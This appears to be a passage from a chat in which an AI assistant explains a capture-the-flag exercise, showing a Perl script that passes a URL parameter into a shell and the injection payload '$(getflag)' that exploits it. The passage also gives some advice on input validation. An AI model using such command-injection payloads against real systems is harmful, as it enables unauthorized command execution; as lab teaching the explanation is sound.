   ```perl
  $input =~ /^[a-zA-Z0-9]+$/ or die "Invalid input!";
  ```
* **Escape or reject** shell metacharacters.

---

Let me know if you'd like a secure rewrite of the script.



Great question.

The reason `getflag` must be in `$(...)` in your URL:

```
http://192.168.182.137:4747/level04.pl?x=$(getflag)
```

is because `$(...)` is **command substitution syntax** in Unix shells. It tells the shell:
**“Execute this command and substitute its output right here.”**

---

### 🔍 Let’s break it down:

In your vulnerable Perl script:

```perl
print `echo $y 2>&1`;
```

If the `x` parameter is `$(getflag)`, then:

```bash
echo $(getflag) 2>&1
```

is what the shell sees. The shell first **executes `getflag`**, captures its output (e.g., `FLAG-abc123`), and substitutes it into the `echo` command:

```bash
echo FLAG-abc123
```

So the script prints the flag.

---

### ❓ What if you just passed `getflag` without `$()`?

Like this:

```
http://192.168.182.137:4747/level04.pl?x=getflag
```

Then you'd get:

```bash
echo getflag
```
